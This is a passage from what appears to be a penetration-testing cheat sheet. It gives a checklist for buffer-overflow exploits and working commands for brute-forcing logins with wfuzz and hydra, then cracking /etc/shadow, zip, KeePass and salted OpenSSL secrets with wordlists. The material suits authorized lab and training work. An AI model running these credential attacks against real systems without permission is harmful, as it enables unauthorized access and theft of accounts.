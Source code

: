 - snmpcheck

- snmpenum

<a name="explotation"></a><h2> Explotation </h2>

<a name="bof"></a><h3> BOF exploit-based </h3>

- change shellcode

- make sure all badchars are removed

- read the exploit properly in case this makes changes in the shellcode

- capture traffic with wireshark making sure the entire shellcode is transmited

- run the exploit several times

- make sure the JMP ESP matches OS and language


<a name="weakcreds"></a><h3> Weak Credentials </h3>


<a name="httpbrute"></a><b> HTTP Brute Force </b>

- wfuzz POST

```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

- hydra POST

```hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20```

- wfuzz NTLM

```wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api```

- wfuzz Basic Auth through Proxy

```wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/```


<a name="passcrack"></a><b> Password Cracking </b>

- zip

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip `

- /etc/shadow

<pre>
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
</pre>

- keepass 

<pre>
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file
</pre>

- Bruteforce Salted

<pre>
for j in $(cat cipher); do echo $j; for i in $(cat digestion); do /root/Documents/HTB/Hawk/bruteforce-salted-openssl/bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c $j -d $i ../miau.txt -1 2>&1 | grep "candidate" ; done ; done
</pre>

```